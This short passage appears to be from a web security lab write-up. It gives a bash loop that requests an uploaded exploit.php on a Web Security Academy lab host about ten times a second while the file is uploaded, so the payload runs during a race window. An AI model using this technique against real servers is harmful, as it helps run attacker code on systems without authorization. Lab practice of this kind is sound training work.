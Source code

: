Bash infinite while oneliner that makes 10 get request by second to the exploit.

Execute it and upload the file to the server. Stop it with ctrl+C. Explore the responses with the solution.

while true; do curl https://0aeb005f04097bd0c179630d002c00fa.web-security-academy.net/files/avatars/exploit.php; sleep 0.1; done
